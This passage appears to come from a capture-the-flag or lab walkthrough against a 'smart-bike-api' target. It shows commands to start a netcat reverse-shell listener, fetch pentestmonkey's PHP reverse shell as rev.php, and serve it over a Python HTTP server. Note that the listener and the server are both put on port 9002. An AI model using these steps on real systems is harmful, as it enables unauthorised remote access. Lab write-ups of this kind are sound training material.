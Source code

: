 ![Config file](../../images/smart-bike-api.png){: .image-process-crisp}

Create a reverse shell listener on `9002` port to listen for connections: `nc -lvnp 9002`.

Prepare a PHP reverse shell with name `rev.php` and run an HTTP server for downloading it later.

- Payload used: <https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php>
  - Needs IP and PORT changed.

```bash
# Download payload
# - edit the CHANGEME's
curl https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php -O rev.php

# Run the HTTP web server.
python3 -m http.server 9002
```
